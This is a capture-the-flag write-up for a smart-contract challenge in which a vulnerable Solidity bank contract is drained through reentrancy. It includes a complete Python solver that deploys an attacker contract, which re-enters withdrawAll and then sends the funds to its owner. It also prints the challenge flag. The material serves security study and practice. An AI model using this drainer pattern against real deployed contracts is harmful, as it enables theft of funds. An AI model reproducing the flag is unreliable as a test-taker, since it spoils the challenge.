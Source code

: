 # Save the Kappa

I absolutely love kappa.  
Therefore, taking inspiration from “Kappa's River Drift”(This is a proverb meaning “Even Homer nods”.), I devised a challenge where helping a kappa results in receiving cucumbers—their favourite food—as a token of gratitude.  
This challenge was created for author's own study.  

Special thanks for karriho. He helped establish this as a legitimate challenge and contributed to creating `solver.py`.

## Result
Solved: 40  
Points: 344

1st: Satoki(BunkyoWesterns)  
2nd: Quriosity(sknb)  
3rd: CEO OF FFF(Lil L3ak)

## Challenge
Kappa always swim in chains. However, due to a mysterious force, one kappa was swept away by the river. Rescue the kappa that was swept away and receive a treasure as a reward!  
`nc chal1.fwectf.com 8020`

Difficulty: medium
Attachment: [VulnerableBank.sol](VulnerableBank.sol)  
            [Setup.sol](Setup.sol)

## writeup

Knowing the following will enable you to solve it:
* reentrancy, etc.

Below is the executable code:
```python solver.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
save_the_kappa / solver.py
- Reentrancy(リエントランシー)攻撃で VulnerableBank(withdrawAll脆弱) を空にする。
- EIP-1559 / legacy 手数料の両対応（web3.py v5/v6 どちらでも動く）。
"""

import os
import sys
from web3 import Web3
from eth_account import Account
from solcx import compile_standard, install_solc, set_solc_version

RPC_URL   = os.getenv("RPC_URL", "http://127.0.0.1:8545")
BANK_ADDR = os.getenv("BANK_ADDR")
PLAYER_PK = os.getenv("PLAYER_PRIV")
STAKE_ETH = float(os.getenv("STAKE_ETH", "0.2"))  # 攻撃の初期デポジット(ETH)

if not BANK_ADDR or not PLAYER_PK:
    print("[!] BANK_ADDR / PLAYER_PRIV を環境変数で指定してください。")
    sys.exit(1)
if not PLAYER_PK.startswith("0x"):
    PLAYER_PK = "0x" + PLAYER_PK

BANK_ADDR = Web3.to_checksum_address(BANK_ADDR)

ATTACKER_SOURCE = r"""
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBank {
    function deposit() external payable;
    function withdrawAll() external;
}

contract ReentrancyKappa {
    IBank public bank;
    address payable public owner;
    uint256 public stake;

    constructor(address _bank) {
        bank = IBank(_bank);
        owner = payable(msg.sender);
    }

    function pwn() external payable {
        require(msg.sender == owner, "only owner");
        require(msg.value > 0, "no stake");
        stake = msg.value;
        bank.deposit{value: msg.value}();
        bank.withdrawAll();
    }

    receive() external payable {
        if (address(bank).balance > 0) {
            bank.withdrawAll();
        }
    }

    function drain() external {
        require(msg.sender == owner, "only owner");
        (bool ok, ) = owner.call{value: address(this).balance}("");
        require(ok, "drain failed");
    }
}
"""

def dual_raw_tx(signed):
    """web3.py v5(rawTransaction) / v6(raw_transaction) 両対応"""
    return getattr(signed, "rawTransaction", None) or getattr(signed, "raw_transaction", None)

def fill_fees(w3: Web3, tx: dict) -> dict:
    """
    チェーンがEIP-1559対応なら maxFeePerGas / maxPriorityFeePerGas を入れる。
    非対応なら gasPrice を入れる。
    既にどちらかが入っている場合は触らない。
    """
    # すでにfee指定があるなら何もしない
    if any(k in tx for k in ("maxFeePerGas", "maxPriorityFeePerGas", "gasPrice")):
        return tx

    latest = w3.eth.get_block("latest")
    base_fee = latest.get("baseFeePerGas")
    if base_fee is not None:
        # EIP-1559
        try:
            max_priority = w3.eth.max_priority_fee  # web3 v6: property
        except Exception:
            # フォールバック: 2 gwei
            max_priority = w3.to_wei(2, "gwei")
        max_fee = base_fee * 2 + max_priority
        tx["maxPriorityFeePerGas"] = int(max_priority)
        tx["maxFeePerGas"] = int(max_fee)
    else:
        # legacy
        tx["gasPrice"] = int(w3.eth.gas_price)
    return tx

def send_raw(w3: Web3, acct, tx: dict):
    """
    ローカル署名送信（EIP-1559/legacy自動対応）
    - nonce/chainId/gas を適切に埋める
    """
    tx = dict(tx)  # copy
    tx.setdefault("from", acct.address)
    tx.setdefault("chainId", w3.eth.chain_id)
    tx.setdefault("nonce", w3.eth.get_transaction_count(acct.address))
    tx.setdefault("gas", 1_500_000)
    tx = fill_fees(w3, tx)

    signed = acct.sign_transaction(tx)
    raw = dual_raw_tx(signed)
    txh = w3.eth.send_raw_transaction(raw)
    rcpt = w3.eth.wait_for_transaction_receipt(txh)
    if rcpt.get("status", 0) != 1:
        raise RuntimeError(f"tx failed: {rcpt}")
    return rcpt

def main():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    assert w3.is_connected(), f"not connected to {RPC_URL}"
    acct = Account.from_key(PLAYER_PK)
    print(f"[+] player: {acct.address}")

    # コンパイル
    install_solc("0.8.26")
    set_solc_version("0.8.26")
    build = compile_standard({
        "language": "Solidity",
        "sources": {"Attacker.sol": {"content": ATTACKER_SOURCE}},
        "settings": {
            "optimizer": {"enabled": True, "runs": 200},
            "outputSelection": {"*": {"*": ["abi", "evm.bytecode.object"]}},
        },
    })
    abi = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["abi"]
    bytecode = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["evm"]["bytecode"]["object"]

    # 攻撃コントラクト deploy
    Attacker = w3.eth.contract(abi=abi, bytecode=bytecode)
    tx = Attacker.constructor(BANK_ADDR).build_transaction({"from": acct.address})
    rc = send_raw(w3, acct, tx)
    attacker_addr = Web3.to_checksum_address(rc["contractAddress"])
    print(f"[+] attacker: {attacker_addr}")
    attacker = w3.eth.contract(address=attacker_addr, abi=abi)

    # 攻撃前の残高
    before = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank before: {w3.from_wei(before, 'ether')} ETH")

    # 攻撃開始（pwn + deposit）
    stake_wei = w3.to_wei(STAKE_ETH, "ether")
    tx = attacker.functions.pwn().build_transaction({"from": acct.address, "value": stake_wei})
    rc = send_raw(w3, acct, tx)
    print("[+] reentrancy done.")

    # 回収
    tx = attacker.functions.drain().build_transaction({"from": acct.address})
    send_raw(w3, acct, tx)

    after = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank after : {w3.from_wei(after, 'ether')} ETH")
    if after == 0:
        print("[+] success: drained. Now press '3' in nc to get the flag.")
    else:
        print("[!] still not zero. Increase STAKE_ETH or gas if needed, and confirm Bank is withdrawAll-type.")

if __name__ == "__main__":
    main()
```

## flag

`fwectf{7h15_15_7h3_cucumber!}`

